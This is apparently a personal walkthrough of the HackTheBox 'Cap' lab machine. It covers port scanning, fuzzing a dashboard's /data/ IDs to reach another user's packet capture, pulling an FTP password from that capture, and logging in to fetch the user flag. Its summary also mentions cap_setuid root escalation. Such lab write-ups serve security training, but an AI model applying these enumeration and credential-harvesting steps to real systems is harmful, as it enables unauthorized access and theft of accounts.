








---
tags:
  - pcap
  - cap_setuid
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Cap
- Reference : https://0xdf.gitlab.io/2021/10/02/htb-cap.html
- Solved : 2024.12.20. (Fri) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Identified open ports `21 (FTP)`, `22 (SSH)`, and `80 (HTTP)` with service versions using `nmap`.
    - **HTTP Exploration**:
        - Found a security dashboard running on the HTTP service.
        - Identified server-side command execution possibilities via `ifconfig` and `netstat` outputs in the dashboard.
        
2. **Web Exploitation**
    - Used URL fuzzing with `ffuf` to identify additional data endpoints.
    - Discovered downloadable `.pcap` files containing captured network traffic.
    - Analyzed `.pcap` files in Wireshark to retrieve FTP credentials for the user `nathan`.
    
3. **Service Access**
    - **FTP**:
        - Logged into the FTP server using the extracted credentials.
        - Retrieved sensitive files, including a user flag.
    - **SSH**:
        - Successfully accessed the target system as `nathan` using the same credentials.
        
4. **Privilege Escalation**
    - **Capabilities Exploitation**:
        - Identified `/usr/bin/python3.8` with the `cap_setuid` capability.
        - Exploited this capability to escalate privileges to root using Python's `os.setuid(0)` function.

### Key Techniques:

- **Enumeration**: Identified open ports and exploited web service vulnerabilities through manual inspection and fuzzing.
- **Packet Analysis**: Used `.pcap` file analysis to extract credentials.
- **Capabilities Abuse**: Exploited `cap_setuid` capability of Python to achieve root-level privileges.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.245
Performing quick port scan on 10.10.10.245...
Found open ports: 21,22,80
Performing detailed scan on 10.10.10.245...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 05:32 EST
Nmap scan report for 10.10.10.245
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Thu, 19 Dec 2024 10:32:45 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 19 Dec 2024 10:32:39 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 19 Dec 2024 10:32:39 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
<SNIP>
```

- 3 ports are open : ftp(21), ssh(22), http(80)
- ftp service version is `vsftpd 3.0.3`
- http(80) doesn't returns index page.. while the title is `gunicorn`.. I think I need to visit manually.

### http(80)

First, let's visit the index page.



Unlike the port scanning result, it returns a valid page.
It looks like a dashboard for security monitoring.
Don't know why, but currently signed in as `Nathan`.



Besides the dashboard, there are 3 more pages.
`Security Snapshot` menu seems to capture packet lively.
Let's visit one by one.

##### Security Snapshot


It doesn't seem to have any count or each data type.
Still I can download `pcap` file by clicking `Download` button.
But no packets and traffics were saved in the file.

##### IP Config



It looks like the server is running `ifconfig` command on its backend.
The `eth0` returns `10.10.10.245` which is the target's IP.
Reasonably, this page triggers server-side command execution.
Let's capture the request and investigate it further.

```bash
GET /ip HTTP/1.1
Host: 10.10.10.245
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

The captured request doesn't contain any valid command injection vector.

##### Network Status



It also seems to run `netstat` command on its backend.

```bash
GET /netstat HTTP/1.1
Host: 10.10.10.245
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

Captured request also doesn't have any injection vector.
Let's take a look at the output though.

```bash
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name     Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        31400      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          36193      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1001       36420      -                    off (0.00/0/0)
tcp        0      0 10.10.10.245:80         10.10.14.14:42674       TIME_WAIT   0          0          -                    timewait (8.13/0/0)
tcp        0      0 10.10.10.245:80         10.10.14.14:41494       ESTABLISHED 1001       38981      -                    off (0.00/0/0)
tcp        0      0 10.10.10.245:80         10.10.14.14:42698       TIME_WAIT   0          0          -                    timewait (8.96/0/0)
tcp        0      0 10.10.10.245:80         10.10.14.14:42712       TIME_WAIT   0          0          -                    timewait (8.13/0/0)
tcp        0      1 10.10.10.245:53160      1.1.1.1:53              SYN_SENT    101        53817      -                    on (6.10/3/0)
tcp        0      0 10.10.10.245:80         10.10.14.14:41554       ESTABLISHED 1001       53819      -                    off (0.00/0/0)
tcp        0      0 10.10.10.245:80         10.10.14.14:42668       TIME_WAIT   0          0          -                    timewait (8.13/0/0)
tcp        0      0 10.10.10.245:80         10.10.14.14:42656       TIME_WAIT   0          0          -                    timewait (8.13/0/0)
tcp        0      0 10.10.10.245:80         10.10.14.14:42684       TIME_WAIT   0          0          -                    timewait (8.13/0/0)
tcp6       0      0 :::21                   :::*                    LISTEN      0          35704      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      0          36195      -                    off (0.00/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        31399      -                    off (0.00/0/0)
udp        0      0 127.0.0.1:45541         127.0.0.53:53           ESTABLISHED 102        53816      -                    off (0.00/0/0)
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   PID/Program name     Path
unix  2      [ ACC ]     SEQPACKET  LISTENING     27324    -                    /run/udev/control
unix  2      [ ACC ]     STREAM     LISTENING     27308    -                    @/org/kernel/linux/storage/multipathd
unix  3      [ ]         DGRAM                    27292    -                    /run/systemd/notify
unix  2      [ ACC ]     STREAM     LISTENING     27295    -                    /run/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     27297    -                    /run/systemd/userdb/io.systemd.DynamicUser
unix  2      [ ACC ]     STREAM     LISTENING     27306    -                    /run/lvm/lvmpolld.socket
unix  2      [ ]         DGRAM                    27309    -                    /run/systemd/journal/syslog
unix  6      [ ]         DGRAM                    27317    -                    /run/systemd/journal/dev-log
unix  2      [ ACC ]     STREAM     LISTENING     27319    -                    /run/systemd/journal/stdout
unix  8      [ ]         DGRAM                    27321    -                    /run/systemd/journal/socket
unix  2      [ ACC ]     STREAM     LISTENING     26607    -                    /run/systemd/journal/io.systemd.journal
unix  2      [ ACC ]     STREAM     LISTENING     31305    -                    /run/dbus/system_bus_socket
unix  2      [ ACC ]     STREAM     LISTENING     31313    -                    /run/snapd.socket
unix  2      [ ACC ]     STREAM     LISTENING     31315    -                    /run/snapd-snap.socket
unix  2      [ ACC ]     STREAM     LISTENING     31317    -                    /run/uuidd/request
unix  2      [ ACC ]     STREAM     LISTENING     34707    -                    /var/run/vmware/guestServicePipe
unix  2      [ ACC ]     STREAM     LISTENING     33581    -                    /run/irqbalance//irqbalance1030.sock
unix  2      [ ACC ]     STREAM     LISTENING     31308    -                    @ISCSIADM_ABSTRACT_NAMESPACE
unix  2      [ ACC ]     STREAM     LISTENING     31309    -                    /var/snap/lxd/common/lxd/unix.socket
unix  3      [ ]         STREAM     CONNECTED     33055    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     47788    -                    /run/systemd/journal/stdout
unix  3      [ ]         DGRAM                    28901    -                    
unix  3      [ ]         STREAM     CONNECTED     36161    -                    
unix  3      [ ]         DGRAM                    28899    -                    
unix  3      [ ]         STREAM     CONNECTED     36389    -                    /run/dbus/system_bus_socket
unix  2      [ ]         DGRAM                    28893    -                    
unix  3      [ ]         STREAM     CONNECTED     52552    -                    
unix  2      [ ]         DGRAM                    37357    -                    
unix  3      [ ]         STREAM     CONNECTED     36162    -                    
unix  3      [ ]         STREAM     CONNECTED     33241    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     28102    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     31310    -                    
unix  3      [ ]         STREAM     CONNECTED     29632    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     47787    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     36163    -                    /run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     35145    -                    
unix  2      [ ]         DGRAM                    26609    -                    
unix  3      [ ]         STREAM     CONNECTED     32973    -                    /run/systemd/journal/stdout
unix  3      [ ]         DGRAM                    28900    -                    
unix  3      [ ]         STREAM     CONNECTED     47785    -                    
unix  3      [ ]         STREAM     CONNECTED     31925    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     32287    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     30156    -                    
unix  3      [ ]         DGRAM                    28898    -                    
unix  3      [ ]         STREAM     CONNECTED     47789    -                    /run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     36388    -                    
unix  2      [ ]         DGRAM                    36160    -                    
unix  3      [ ]         STREAM     CONNECTED     32883    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     28725    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     33706    -                    
unix  3      [ ]         STREAM     CONNECTED     34702    -                    
unix  3      [ ]         STREAM     CONNECTED     31398    -                    
unix  3      [ ]         STREAM     CONNECTED     32875    -                    
unix  2      [ ]         DGRAM                    33455    -                    
unix  3      [ ]         STREAM     CONNECTED     52458    -                    
unix  3      [ ]         STREAM     CONNECTED     33709    -                    
unix  3      [ ]         STREAM     CONNECTED     36165    -                    /run/dbus/system_bus_socket
unix  3      [ ]         DGRAM                    31204    -                    
unix  3      [ ]         DGRAM                    27294    -                    
unix  3      [ ]         STREAM     CONNECTED     33710    -                    
unix  3      [ ]         STREAM     CONNECTED     32286    -                    
unix  2      [ ]         DGRAM                    31282    -                    
unix  3      [ ]         STREAM     CONNECTED     33412    -                    /run/systemd/journal/stdout
unix  2      [ ]         DGRAM                    28691    -                    
unix  3      [ ]         STREAM     CONNECTED     31926    -                    
unix  3      [ ]         STREAM     CONNECTED     32290    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     32970    -                    
unix  3      [ ]         STREAM     CONNECTED     36167    -                    /run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     31396    -                    
unix  3      [ ]         STREAM     CONNECTED     52546    -                    
unix  3      [ ]         STREAM     CONNECTED     31130    -                    
unix  3      [ ]         STREAM     CONNECTED     52459    -                    /run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     31924    -                    
unix  3      [ ]         DGRAM                    28693    -                    
unix  3      [ ]         DGRAM                    27293    -                    
unix  3      [ ]         STREAM     CONNECTED     34549    -                    
unix  3      [ ]         STREAM     CONNECTED     31927    -                    /run/systemd/journal/stdout
unix  2      [ ]         DGRAM                    28696    -                    
unix  2      [ ]         DGRAM                    31180    -                    
unix  3      [ ]         STREAM     CONNECTED     32971    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     36403    -                    
unix  3      [ ]         STREAM     CONNECTED     36158    -                    
unix  3      [ ]         STREAM     CONNECTED     33464    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     27945    -                    
unix  3      [ ]         STREAM     CONNECTED     32876    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     33386    4838/sh              
unix  3      [ ]         STREAM     CONNECTED     36407    -                    /run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     32895    -                    /run/systemd/journal/stdout
unix  3      [ ]         DGRAM                    31205    -                    
unix  3      [ ]         STREAM     CONNECTED     32878    -                    
unix  3      [ ]         STREAM     CONNECTED     31311    -                    
unix  3      [ ]         DGRAM                    31207    -                    
unix  3      [ ]         STREAM     CONNECTED     33051    -                    
unix  3      [ ]         STREAM     CONNECTED     33587    -                    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     35690    -                    
unix  2      [ ]         DGRAM                    33245    -                    
unix  3      [ ]         STREAM     CONNECTED     34796    -                    
unix  2      [ ]         DGRAM                    31199    -                    
unix  3      [ ]         STREAM     CONNECTED     36404    -                    /run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     36166    -                    /run/dbus/system_bus_socket
unix  2      [ ]         DGRAM                    36397    -                    
unix  3      [ ]         STREAM     CONNECTED     36164    -                    /run/dbus/system_bus_socket
unix  3      [ ]         DGRAM                    28694    -                    
unix  3      [ ]         DGRAM                    31206    -                    
unix  3      [ ]         STREAM     CONNECTED     28860    -
```

Since it looks like it's running command on its backend, I guess that the `Security Snapshot` command will also be run on the server-side.
Let's trigger `ftp` connection with `anonymous` login and capture it.



Let's download and open it on `wireshark`.

```bash
220 (vsFTPd 3.0.3)
USER anonymous
331 Please specify the password.
PASS test
```

It is the captured packet. It contains my input when I was trying anonymous login.

# Shell as `nathan`

### Fuzz URL

Btw, I captured that the address of the page is slightly modified from the previous result.

Here's the previous one;
`http://10.10.10.245/data/2`

And this is the current result;
`http://10.10.10.245/data/3`

I think I can modify the last `/0` number to see different output.

First, let's prepare number list for fuzzing.

```bash
seq 0 100 > numbers.txt
```

Then, let's try fuzzing with `ffuf`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://10.10.10.245/data/FUZZ -w numbers.txt:FUZZ -fs 208

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.245/data/FUZZ
 :: Wordlist         : FUZZ: /home/kali/htb/numbers.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 208
________________________________________________

:: Progress: [40/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E:: Progress: [40/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E:: Progress: [40/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E:: Progress: [77/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E3                       [Status: 200, Size: 17144, Words: 7066, Lines: 371, Duration: 144ms]
:: Progress: [84/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E1                       [Status: 200, Size: 17144, Words: 7066, Lines: 371, Duration: 155ms]
:: Progress: [95/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E2                       [Status: 200, Size: 17144, Words: 7066, Lines: 371, Duration: 159ms]
:: Progress: [87/101] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E0                       [Status: 200, Size: 17147, Words: 7066, Lines: 371, Duration: 169ms]
:: Progress: [100/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: :: Progress: [100/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: :: Progress: [100/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

All previous scans are between 1~3, while there's unseen result with `0`.
Let's visit the page.


Yes! Here I can find another user's result.
It contains quite a lot of traffics.
Let's download and take a look with `wireshark`.



I am sure that there must be packets of `ftp` or `ssh` authentication.



Luckily, here I can find `nathan`'s ftp credential : `Buck3tH4Tf0RM3!`
Let's follow the TCP stream to see what the guy did.

### Analyze FTP packet

```bash
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```

Let's analyze the commands.

```bash
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```

- The client provides the username `nathan` and the password `Buck3tH4TF0RM3!`.
- The server accepts the credentials and logs the user in successfully.

```bash
SYST
215 UNIX Type: L8
```

- The `SYST` command requests system information.
- The server responds with `215 UNIX Type: L8`, indicating it is a UNIX-based system.

```bash
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
```

- The client uses the `PORT` command to specify its IP (`192.168.196.1`) and port (`212,140`) for data transfer.
- The server confirms the active mode setup.

```perl
LIST
150 Here comes the directory listing.
226 Directory send OK.
```

- The `LIST` command requests a listing of files in the current directory.
- The server successfully sends the directory listing.

```bash
TYPE I
200 Switching to Binary mode.
RETR notes.txt 
550 Failed to open file.
```

- The client switches to binary mode (`TYPE I`) to handle file transfers for non-text files.
- The `RETR` command tries to retrieve `notes.txt`.
- The server responds with `550 Failed to open file`, indicating that the file either does not exist or access is denied.

Based on the analyze, let's try the found credential on ftp, and ssh services.

### Try the found credential on ftp

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ftp nathan@10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45791|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Dec 19 08:51 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||58797|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |*******************************|    33      383.64 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.24 KiB/s)
```

